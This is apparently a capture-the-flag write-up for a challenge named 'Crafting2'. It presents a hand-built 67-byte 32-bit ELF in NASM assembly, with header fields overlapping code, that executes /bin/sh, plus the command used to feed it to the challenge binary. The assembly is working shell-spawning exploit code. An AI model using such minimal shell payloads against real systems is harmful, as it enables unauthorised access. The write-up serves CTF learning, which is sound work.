 # Crafting2

Here, we have to actually make a very small elf file. The smallest possible file that gives a shell for 64 bit is 80 bytes but the challenge only allows 79 bytes. I tried to reduce one byte but failed and then realized that the challenge binary does not check if the elf is 64 bit and found out that the smallest file for 32 bit could be less than 79 bytes. Solution is below for 32 bit, this file is 67 bytes long and all of the elf sections are manually built out to save size, compile with `nasm -f bin -o 32 32.asm`

```x86asm
BITS 32

    org     0x00010000

    db      0x7F, "ELF"             ; e_ident
    dd      1                                       ; p_type
    dd      0                                       ; p_offset
    dd      $$                                      ; p_vaddr 
    dw      2                       ; e_type        ; p_paddr
    dw      3                       ; e_machine
    dd      _start                  ; e_version     ; p_filesz
    dd      _start                  ; e_entry       ; p_memsz
    dd      4                       ; e_phoff       ; p_flags
_start:
    mov     ebx, 0x1003c                  ; e_shoff       ; p_align
    jmp second
    ; inc     eax                     ; e_flags
    ; int     0x80
    db      0
    dw      0x34                    ; e_ehsize
    dw      0x20                    ; e_phentsize
    db      1                       ; e_phnum
                                    ; e_shentsize
                                    ; e_shnum
                                    ; e_shstrndx
filesize      equ     $ - $$

        dq 0
        second:
                mov eax, 11
                int 0x80
        binsh:
        db "/bin/sh"
```

There are a couple of blogs you can find which go over this but they focus on just calling exit 42 or printing "hello world", this has been modified to call `/bin/sh`.

Just `cat 32 | ./chall` to get the flag.
